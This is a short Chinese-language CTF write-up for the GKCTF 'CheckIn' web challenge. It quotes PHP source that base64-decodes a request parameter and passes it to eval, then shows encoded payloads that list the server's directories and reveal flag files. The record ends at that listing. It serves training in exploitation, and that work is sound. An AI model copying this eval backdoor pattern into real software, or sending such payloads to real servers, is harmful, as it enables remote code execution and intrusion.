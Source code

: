 ```yaml
---
note:
    createdAt: 2020-05-26T02:16:22.785Z
    modifiedAt: 2020-06-15T12:44:46.513Z
    tags: []
---
```

# GKCTF

总结：自己太菜了。。。

要开始注意真实漏洞环境的挖掘与利用了！

## WEB

### CheckIn

做到$_POST连接的时候没想到再套一层eval。。。

```php
<title>Check_In</title>
<?php
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo']; // 获取$_REQUEST中的内容
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode); // 执行
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

有eval，先扫描文件夹看看

```text
Ginkgo=cHJpbnRfcihzY2FuZGlyKCIuLyIpKTs= => print_r(scandir("./")) => Array ( [0] => . [1] => .. [2] => index.php )
Ginkgo=cHJpbnRfcihzY2FuZGlyKCIvIikpOw== => print_r(scandir("/"))  => Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => flag [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => readflag [16] => root [17] => run [18] => sbin [19] => srv [20] => start.sh [21] => sys [22] => tmp [23] => usr [24] => var )
```
